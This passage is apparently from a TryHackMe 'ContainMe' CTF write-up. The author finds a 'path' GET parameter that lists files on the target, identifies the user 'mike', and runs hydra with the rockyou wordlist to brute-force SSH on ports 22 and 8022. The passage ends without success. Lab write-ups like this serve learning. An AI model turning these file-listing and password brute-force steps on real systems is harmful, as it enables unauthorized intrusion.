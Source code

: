 This page shows us the webroot directory (`/var/www/html/`)??

**Also, when I visit the source page:**
```html
<!--  where is the path ?  -->
```

It has a HTML comment that says `where is the path ?`.

And this got me thinking: **What if it needs a GET parameter called `path`??** Let's try this:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/ContainMe/images/a3.png)

Ohh!! We can list all the files in the target machine!

Hmm... Since we can list directory in the target machine, we could try to figure out a user's username, and bruteforce it in SSH??

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/ContainMe/images/a4.png)

- Found user: `mike`

**Bruteforcing SSH on port 22 via `hydra`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS
[...]
[STATUS] 86.00 tries/min, 86 tries in 00:01h, 14344315 to do in 2779:55h, 14 active
[STATUS] 76.00 tries/min, 228 tries in 00:03h, 14344173 to do in 3145:40h, 14 active
```

But no luck. How about SSH on port 8022?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS -s 8022
[...]
```
